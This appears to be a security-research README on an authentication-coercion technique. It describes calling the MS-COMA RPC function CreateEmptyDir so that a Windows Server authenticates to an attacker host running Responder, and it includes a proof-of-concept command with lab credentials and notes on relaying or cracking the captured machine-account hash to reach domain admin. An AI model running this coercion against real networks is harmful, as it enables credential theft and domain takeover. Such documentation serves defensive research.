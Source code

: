 # MS-COMA - Remote call to CreateEmptyDir (opnum 4)

## Summary

 - **Protocol**: [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd)

 - **Protocol UUID**: 182c40fa-32e4-11d0-818b-00a0c9231c29

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`CreateEmptyDir`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/798a41fc-b88f-420a-8795-4e2ac067beea)

 - **Function operation number**: `4`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol (with uuid `182c40fa-32e4-11d0-818b-00a0c9231c29` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-COMA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd) and allows to call RPC functions of this protocol. We will then call the remote [`CreateEmptyDir`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/798a41fc-b88f-420a-8795-4e2ac067beea) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
CreateEmptyDir('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT CreateEmptyDir(
   [in] LPCWSTR pwszPath
 );
```

## References

 - Documentation of protocol [MS-COMA]: Component Object Model Plus (COM+) Remote Administration Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/c5b1ef02-e8f6-4195-9efe-9667928d1bdd

 - Documentation of function `CreateEmptyDir`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-coma/798a41fc-b88f-420a-8795-4e2ac067beea